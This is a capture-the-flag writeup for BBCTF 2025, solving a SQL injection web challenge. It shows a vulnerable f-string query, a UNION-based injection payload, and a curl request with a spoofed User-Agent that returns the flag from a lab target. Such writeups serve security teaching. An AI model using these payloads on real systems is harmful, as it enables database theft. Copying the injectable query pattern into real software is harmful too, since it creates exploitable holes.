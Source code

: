 ```yaml
---
title: 'BBCTF 2025'
description: 'A compilation of BBCTF 2025 Writeups'
date: 2025-05-05
tags: ['BBCTF','CTF','Writeup']
image: '/assets/openpage.png'
authors: ['bakayang','gr1d','w_11']
license: 'CC BY-NC-SA 4.0'
---
```

## [Forensics]

## [Web]

## SQLI Series - 1

### Goals
---
Exploit a SQL injection vulnerability to extract the flag from a database.

### Solution
---
1. Identify the vulnerability in the search function where user input is directly inserted into SQL query:
   ```python
   query = f"SELECT * FROM products WHERE name LIKE '%{search_term}%'"
   ```

2. Craft a payload to escape the string and use UNION-based injection:
   ```
   ' UNION SELECT 1, flag_value FROM flag -- 
   ```

3. Send request with required User-Agent header to bypass authentication check:
   ```bash
   curl -X POST http://target-url/ \
     -H "User-Agent: UMCS-CTF" \
     -d "search=' UNION SELECT 1, flag_value FROM flag -- "
   ```

### Final Result
---
**Flag:** `BBCTF{sql_inj3ct10n_101}`


